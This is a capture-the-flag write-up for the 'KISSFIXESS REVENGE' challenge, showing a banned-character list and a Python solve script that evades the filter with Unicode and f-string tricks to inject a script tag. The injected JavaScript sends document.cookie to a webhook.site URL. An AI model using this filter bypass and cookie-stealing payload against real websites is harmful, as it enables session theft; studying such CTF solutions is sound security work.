


# KISSFIXESS REVENGE

```text
Okay, NOW ain't nobody gonna solve it.
```

points: `50`

solves: `76`

author: `hofill`

---

This is a sequel to the [KISSFIXESS](./KISSFIXESS.md) challenge

This time, more strings are banned:

```python
banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "&", "%", "^", "#", "@", "!", "*", "-", "import", "eval", "exec", "os", ";", ",", "|", "JAVASCRIPT", "window", "atob", "btoa", "="]
```

Python evaluates `pow` as follows. Characters from the output can be used

```text
>>> pow
<built-in function pow>
```



`self` is not allowed, but italicized *self* :



Solve script (credits: [@CerealSoup](https://github.com/DarkGuy10)):

```python
from base64 import b64encode

substitutions = {
    "&": "${banned[0]}",
    "<": "${banned[1]}",
    ">": "${banned[2]}",
    "(": "${banned[3]}",
    ")": "${banned[4]}",
    ".": "${f'{𝘴𝘦𝘭𝘧}'[5]}",
    "l": "${f'{pow}'[4]}",
    "s": "${f'{𝘴𝘦𝘭𝘧}'[26]}",
    "window": "w${f'{pow}'[3]}ndow",
    "atob": "ato${f'{pow}'[1]}",
}


js_payload = b"fetch('https://webhook.site/51db469d-d555-4496-b6fc-9cc9d9344385/?flag=' + document.cookie);;"
# Extra ';' in the js_payload is to add padding since '=' is not allowed and the payload is going to be base64-encoded

encoded = b64encode(js_payload).decode()
payload = f"</div><SCRIPT>eval(window.atob(`{encoded}`))</SCRIPT>"

for key, sub in substitutions.items():
    payload = payload.replace(key, sub)

print(payload)
```

GOATed [Pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/)
